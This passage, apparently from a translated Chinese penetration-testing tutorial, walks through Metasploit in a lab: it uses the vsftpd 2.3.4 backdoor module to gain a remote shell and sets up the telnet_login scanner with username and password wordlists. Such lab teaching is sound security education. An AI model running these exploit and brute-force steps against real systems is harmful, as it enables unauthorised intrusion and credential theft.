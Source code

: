 4.  Metasploit 将为我们提供满足搜索条件的结果列表。您应该看到控制台返回一个名为`vsftpd_234_backdoor`的基于 Unix 的攻击。要在我们的目标上使用此漏洞，请使用以下命令序列：

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.100 
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

在我的实验室环境中，目标使用的是`10.10.10.100`IP 地址。请确保在 Metasploit 上设置`RHOSTS`（远程主机）值之前验证目标设备的 IP 地址。此外，还有许多模块需要您设置远程目标。您可以使用`setg`命令全局设置目标。

5.  执行`exploit`命令。Metasploit 将尝试将攻击代码推送到目标。一旦成功，将创建一个 shell。shell 允许我们在目标上远程执行来自攻击者机器的命令，如以下屏幕截图所示：

![](img/3a1e0848-b25b-4f21-843c-94d39b60b94b.png)

6.  此时，在控制台上执行的任何命令都将在目标上执行。执行`uname -a`命令验证并打印系统信息：

![](img/481363eb-6936-42b7-89f4-7baeac5cad09.png)

通常，在面向公众和内部系统上执行简单的端口扫描时，`23`端口通常为远程管理打开。但是，端口`23`是用于 Telnet 协议的默认端口。Telnet 是一种不安全的协议，它允许用户通过网络远程访问机器以及用户之间的所有通信量。任何启用 Telnet 的设备都是未加密的，容易受到 MITM 攻击，攻击者可以很容易地捕获用户凭据。

7.  让我们使用`search`命令查找一个有用的模块，以检查启用 Telnet 的设备上的有效用户凭据。要开始，请使用以下命令：

```
search telnet
```

8.  与往常一样，符合搜索条件的结果列表将显示在控制台上。在本练习中，我们将使用特定的扫描仪检查已验证的用户帐户：

```
msf5 > use auxiliary/scanner/telnet/telnet_login
```

9.  接下来，设置远程主机：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set RHOSTS 10.10.10.100
```

10.  如果有包含不同用户名的单词列表，请使用以下命令（指定文件路径）：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set USER_FILE <username word list>
```

（可选）如果您有密码列表，请使用以下命令：

```
msf5 auxiliary(scanner/telnet/telnetlogin) > set PASS_FILE <wordlist>
```
